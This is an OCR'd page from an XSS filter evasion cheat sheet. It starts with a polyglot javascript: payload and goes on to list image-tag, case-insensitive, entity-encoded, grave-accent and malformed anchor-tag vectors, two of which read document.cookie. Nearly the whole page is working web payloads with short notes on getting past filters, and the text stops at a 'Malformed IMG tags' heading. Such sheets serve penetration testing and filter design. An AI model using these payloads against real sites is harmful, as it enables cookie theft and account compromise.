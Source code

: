 ` `[`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/`](javascript:/*--%3E%3C/title%3E%3C/style%3E%3C/textarea%3E%3C/script%3E%3C/xmp%3E%3Csvg/onload='+/%22/+/onmouseover=1/+/)`[*/[]/+alert(1)//'>`

## Image XSS using the JavaScript directive

Image XSS using the JavaScript directive (IE7.0 doesn't support the
JavaScript directive in context of an image, but it does in other
contexts, but the following show the principles that would work in other
tags as well:

<IMG SRC="javascript:alert('XSS');">

## No quotes and no semicolon

<IMG SRC=javascript:alert('XSS')>

## Case insensitive XSS attack vector

<IMG SRC=JaVaScRiPt:alert('XSS')>

## HTML entities

The semicolons are required for this to work:

<IMG SRC=javascript:alert(&amp;quot;XSS&amp;quot;)>

## Grave accent obfuscation

If you need to use both double and single quotes you can use a grave
accent to encapsulate the JavaScript string - this is also useful
because lots of cross site scripting filters don't know about grave
accents:

``<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>``

## Malformed A tags

Skip the HREF attribute and get to the meat of the XXS... Submitted by
David Cross \~ Verified on Chrome

\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>

or Chrome loves to replace missing quotes for you... if you ever get
stuck just leave them off and Chrome will put them in the right place
and fix your missing quotes on a URL or script.

\<a onmouseover=alert(document.cookie)\>xxs link\</a\>

## Malformed IMG tags
